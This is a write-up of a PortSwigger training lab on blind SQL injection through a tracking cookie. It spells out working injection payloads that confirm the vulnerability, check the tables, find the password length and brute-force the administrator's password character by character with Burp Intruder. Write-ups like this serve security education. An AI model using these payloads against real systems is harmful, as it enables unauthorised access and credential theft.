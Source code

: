 # Lab: Blind SQL injection with conditional responses

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result: Page contains "Welcome back" message in TRUE case
- database contains table 'users' with columns 'username' and 'password'
- Goal: Login as user 'administrator'

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found vulnerable parameter, I omit session value from now on.

### Confirm expected table

Confirm that the `users` table actually exist. For this, select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with different column name verified.

### Get length of password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", password is not of length 1

Checking with '>' instead of '=' results in "Welcome back", so password is >

Brute force length with Burp Intruder (Sniper, Payload is '1' argument in query)

![Enumerate length of password](img/length_of_password.png)

![Enumerate length of password full results](img/length_of_password_result.png)

--> Password is exactly 20 characters long

### Enumerate password of administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.

![Enumerate first character of password](img/enumerate_password_first.png)

First character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

## Try login

![Login successful](img/Win.png)

